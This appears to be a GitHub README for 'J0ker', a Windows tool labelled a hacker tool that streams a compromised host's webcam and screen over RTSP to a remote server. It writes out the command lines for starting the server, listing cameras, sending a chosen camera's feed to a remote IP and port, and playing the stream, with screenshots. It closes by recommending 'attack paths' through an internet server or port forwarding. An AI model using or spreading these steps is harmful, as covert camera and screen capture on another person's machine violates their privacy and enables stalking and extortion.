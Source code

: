   <div align="center">
<p align="center">
 <img title="J0ker" src='https://img.shields.io/badge/J0ker-1.0.0-brightgreen.svg' />
 <img title="J0ker" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="J0ker" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="J0ker" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="J0ker" src='https://img.shields.io/badge/-windows-F16061?logo=windows&logoColor=000'/>
</p>
</div>

#J0ker Description

|Function|
|---|
|RTSP streaming|
|Real time playback|
|Real time screen recording|
|Real time live streaming|


# Configure Client

![image.png](https://image.3001.net/images/20231126/1700990224_65630d109b307035a65ad.png!small)

I connected directly to the remote desktop here

![image.png](https://image.3001.net/images/20231126/1700990277_65630d451132db61b7ffa.png!small)

*Start RTSP service*

`#J0ker.exe -server 9999`
![image.png](https://image.3001.net/images/20231126/1700990508_65630e2c5aa2ece89c79d.png!small)

*Let Mr. Joker see which cameras there are...*

`#J0ker.exe -get`

![image.png](https://image.3001.net/images/20231126/1700990399_65630dbfaa2c031f7c3b7.png!small)

*Successfully connected to the server..*

`#J0ker.exe -rhost 123.123.123.123 -rport 9999 -camera "USB2.0 PC CAMERA"`

![image.png](https://image.3001.net/images/20231126/1700990652_65630ebc52e9b36f5fb30.png!small)

*Copy>rtsp://192.168.0.104:9999/tPo6wh*

# Using J0ker on PC to play RTSP streams

*Other host perspectives:*

*Mr. Joker, turn on the camera*

`#J0ker.exe -play rtsp://192.168.0.104:9999/tPo6wh`

![image.png](https://image.3001.net/images/20231126/1700990837_65630f7566ad93405bb4b.png!small)

# Using VLC to play RTSP streams on the PC end

![image.png](https://image.3001.net/images/20231126/1700991108_65631084b5ceadcd5447f.png!small)

# Android uses VLC to play RTSP streams

_The APK package is located in the Android directory_
![image.png](https://image.3001.net/images/20231126/1700992382_6563157ec9ce6f6c44e6a.png!small)

_After installation, enter the RTSP address to connect_

![image.png](https://image.3001.net/images/20231126/1700992355_65631563a3367af486d8a.png!small)

![Screenshot_20231126_175131.jpg](https://image.3001.net/images/20231126/1700992406_6563159622690c22a5917.jpg!small)

![Screenshot_20231126_175204.jpg](https://image.3001.net/images/20231126/1700992422_656315a6c141aa5485407.jpg!small)

# Regarding the internet and streaming monitoring

_There is no problem at all, so we recommend these two attack paths_

_Select 1. Deploy on internet servers_

![image.png](https://image.3001.net/images/20231126/1700992944_656317b072a0b9c2271b8.png!small)

 _Select 2. Port forwarding_

 ![image.png](https://image.3001.net/images/20231126/1700993056_6563182077ab48564d4c2.png!small)
